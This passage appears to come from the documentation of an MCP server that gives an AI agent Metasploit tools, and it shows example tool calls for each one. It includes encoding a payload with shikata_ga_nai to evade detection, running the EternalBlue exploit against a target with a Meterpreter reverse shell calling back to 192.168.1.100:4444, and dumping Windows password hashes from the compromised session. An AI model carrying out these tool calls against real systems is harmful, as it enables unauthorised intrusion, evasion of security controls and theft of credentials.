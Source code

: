 #### msfvenom_encode_payload
Apply encoders to evade detection.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>msfvenom_encode_payload</tool_name>
<arguments>
{
  "payloadFile": "/path/to/payload.bin",
  "encoder": "x86/shikata_ga_nai",
  "iterations": 3,
  "outputFormat": "raw"
}
</arguments>
</use_mcp_tool>
```

### MSFConsole Tools

#### msfconsole_run_exploit
Execute exploits for initial access vectors.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>msfconsole_run_exploit</tool_name>
<arguments>
{
  "exploitModule": "exploit/windows/smb/ms17_010_eternalblue",
  "target": "192.168.1.1",
  "payload": "windows/meterpreter/reverse_tcp",
  "options": {
    "LHOST": "192.168.1.100",
    "LPORT": "4444"
  }
}
</arguments>
</use_mcp_tool>
```

#### msfconsole_post_exploitation
Run post-exploitation modules.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>msfconsole_post_exploitation</tool_name>
<arguments>
{
  "sessionId": 1,
  "module": "post/windows/gather/hashdump",
  "options": {
    "SESSION": 1
  }
}
</arguments>
</use_mcp_tool>
```
